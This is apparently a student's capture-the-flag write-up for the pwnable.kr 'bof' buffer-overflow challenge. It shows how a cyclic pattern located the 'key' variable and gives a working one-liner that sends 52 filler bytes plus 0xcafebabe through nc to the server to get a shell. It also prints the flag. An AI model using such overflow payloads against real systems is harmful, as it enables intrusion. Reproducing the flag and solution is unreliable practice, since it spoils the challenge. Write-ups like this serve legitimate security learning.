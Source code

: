 I could use the string to find where is target place.

![image-20210203154029685](../old_assets/image-20210203154029685.png)

I know it overflows the varibable at the start of `Ab` . Next is to find the content of variable `key`, then I know the place to overflow key's data. 

![image-20210203154931846](../old_assets/image-20210203154931846.png)

I learned to print the key as a sequence of 4 characters on the class tutorial notes. 

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A|**KEY**|b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

The bold words are where key is. Now I can set any value I want to key. 

So, the expoit string is `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6A + \xbe\xba\xfe\xca`. 

Since it doesn't matter what content is in the overflow variable, so I replace the long string with one char `q`.

Now I have the overflow string, so I'll use a python script to help me input it:

```
(python -c "print 'q'*52 +'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000
```

This pythin script will input the data to pwnable.kr's 9000 port. It's like running a local program `./bof`. The difference is piped the data to a remote server.  

![image-20210203162452643](../old_assets/image-20210203162452643.png)

Finally, I have the user `col`'s  shell and use it to get the flag.

And the flag is `daddy, I just pwned a buFFer :)`


